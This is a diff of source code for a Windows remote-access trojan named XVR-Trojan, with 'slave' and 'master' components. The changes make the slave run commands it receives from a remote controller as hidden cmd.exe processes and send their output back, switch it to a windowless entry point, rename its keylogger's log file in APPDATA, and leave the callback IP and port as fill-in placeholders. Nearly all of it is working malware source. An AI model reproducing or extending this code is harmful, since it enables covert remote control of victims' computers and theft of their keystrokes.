

XVR-Trojan

diff --git a/XVR - slave/source/cmd/cmd_system.c b/XVR - slave/source/cmd/cmd_system.c
@@ -8,22 +8,77 @@
 
 int net_cmd_System(char* msg, int msgLen)
 {
-	FILE *f = popen(msg, "r");
-	char buff[256];
+	char* temp_path = getenv("TEMP");
+	int len = strlen(temp_path) + 16;
+	char* buff_path = "testlog";//malloc(len);
+	//snprintf(buff_path, len, "%s\\mKtIXMj52rh7PU", temp_path);
 
-	while(fgets(buff, sizeof(buff), f) != 0) 
+	PROCESS_INFORMATION pi; 
+	STARTUPINFO si;
+	SECURITY_ATTRIBUTES sa;
+	sa.nLength = sizeof(sa);
+	sa.lpSecurityDescriptor = NULL;
+	sa.bInheritHandle = 1;       
+
+    	HANDLE h_temp = CreateFile(buff_path, FILE_APPEND_DATA, FILE_SHARE_WRITE | FILE_SHARE_READ, &sa, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
+
+	memset(&pi, 0, sizeof(PROCESS_INFORMATION));
+	memset(&si, 0, sizeof(STARTUPINFO));
+	si.cb = sizeof(STARTUPINFO); 
+	si.dwFlags |= STARTF_USESTDHANDLES;
+	si.hStdInput = NULL;
+	si.hStdError = h_temp;
+	si.hStdOutput = h_temp;
+
+	char buff[100];
+	memset(buff, 0, 100);
+
+	char* _nmsg = malloc(strlen(msg) + strlen("cmd.exe /c ") + sizeof(char));
+	sprintf(_nmsg, "cmd.exe /c %s", msg);
+
+	if(CreateProcess(NULL, _nmsg, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi))
 	{
-		if(net_SendData(buff, strlen(buff)) < 1)
+		WaitForInputIdle(pi.hProcess, 500);
+		CloseHandle(pi.hProcess);
+		CloseHandle(pi.hThread);
+		CloseHandle(h_temp);
+		free(_nmsg);
+	
+		FILE *f = fopen(buff_path, "r");
+		fseek(f, 0, SEEK_SET);
+		Sleep(50);
+
+		while(fgets(buff, 100, f) != NULL)
 		{
-			return -1;
-		}		
+			Sleep(10);
+
+			if(net_SendData(buff, strlen(buff)) < 1)
+			{
+				fclose(f);
+				remove(buff_path);
+				free(buff_path);
+				free(temp_path);
+	
+				return -1;
+			}
+	
+			
+			memset(buff, 0, 100);
+		}
+
+		TerminateProcess(pi.hProcess, 0);
+		fclose(f);
+	}else{
+		CloseHandle(h_temp);
+		free(_nmsg);
 	}
 
-	pclose(f);
+	remove(buff_path);
+	free(buff_path);
+	free(temp_path);
 
-	memset(buff, 0, 256);
 	buff[0] = NET_CMD_SYSTEM;
-
+	
 	if(net_SendData(buff, 2) < 1)
 	{
 		return -1;
@@ -31,3 +86,56 @@ int net_cmd_System(char* msg, int msgLen)
 
 	return 1;
 }
+
+/*
+int net_cmd_System(char* msg, int msgLen)
+{
+	char* temp_path = getenv("TEMP");
+	int len = strlen(temp_path) + 16;
+	char* buff_path = malloc(len);
+	snprintf(buff_path, len, "%s\\mKtIXMj52rh7PU", temp_path);
+	
+	FILE *f = fopen(buff_path, "a+");
+	int savedStdout = dup(1);
+	dup2(_fileno(f), 1);
+
+	system(msg);
+
+	fflush(stdout);
+	dup2(savedStdout, 1);
+	fseek(f, 0, SEEK_SET);
+
+	char buff[100];
+	memset(buff, 0, 100);
+
+	while(fgets(buff, 100, f) != NULL)
+	{
+		if(net_SendData(buff, strlen(buff)) < 1)
+		{
+			fclose(f);
+			remove(buff_path);
+			free(buff_path);
+			free(temp_path);
+
+			return -1;
+		}
+
+		Sleep(5);
+		
+		memset(buff, 0, 100);
+	}
+
+	fclose(f);
+	remove(buff_path);
+	free(buff_path);
+	free(temp_path);
+
+	buff[0] = NET_CMD_SYSTEM;
+	
+	if(net_SendData(buff, 2) < 1)
+	{
+		return -1;
+	}
+
+	return 1;
+}*/

diff --git a/XVR - slave/source/main.c b/XVR - slave/source/main.c
@@ -96,12 +96,12 @@ void main_config()
     free(appdata_path);
 }
 
-int main(int argsl, char* args[])
+int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
 {
-    if(argsl != 2)
+    if(strstr(GetCommandLine(), "-dontallow") == NULL)
     {
         srand(time(0));
-        main_globalPath = args[0];
+        main_globalPath = GetCommandLine();
         main_config();    
         free(main_globalPath);
     }

diff --git a/XVR - slave/source/keylogger.c b/XVR - slave/source/keylogger.c
@@ -13,7 +13,7 @@ DWORD keylogger_func()
      int i;
      char* appdata_path = getenv("APPDATA");
      keylogger_path = malloc(strlen(appdata_path) + 5 + sizeof(char));
-     sprintf(keylogger_path, "%s\\logg", appdata_path);
+     sprintf(keylogger_path, "%s\\klog", appdata_path);
      flog = fopen(keylogger_path, "a");
      fseek(flog, 0, SEEK_END);
 

diff --git a/XVR - master/source/netInterface.c b/XVR - master/source/netInterface.c
@@ -104,7 +104,7 @@ int net_Execute(SOCKET sock)
      {
           printf("\n\x1b[36mRoot \x1b[0;37m>\x1b[40m:\x1b[0;37m");
      }else{
-          printf("Root >:");
+          printf("\nRoot >:");
      }
 
      fgets(itext, NET_BUFFSIZE, stdin);

diff --git a/XVR - slave/include/net/interface.h b/XVR - slave/include/net/interface.h
@@ -3,8 +3,8 @@
 
 #include "types.h"
 
-#define NET_IP YOUR DOMAIN OR IP
-#define NET_PORT 2666
+#define NET_IP YOUR IP
+#define NET_PORT YOUR PORT
 
 #define NET_BUFFSIZE 516
 #define NET_RECV_TRIES 5

diff --git a/XVR - master/source/cmd/cmd_terminate.c b/XVR - master/source/cmd/cmd_terminate.c
@@ -18,5 +18,5 @@ int net_cmd_Terminate(char* msg, int msgLen, SOCKET sock)
 		return -2;
 	}
 	
-	return 1;
+	return -1;
 }
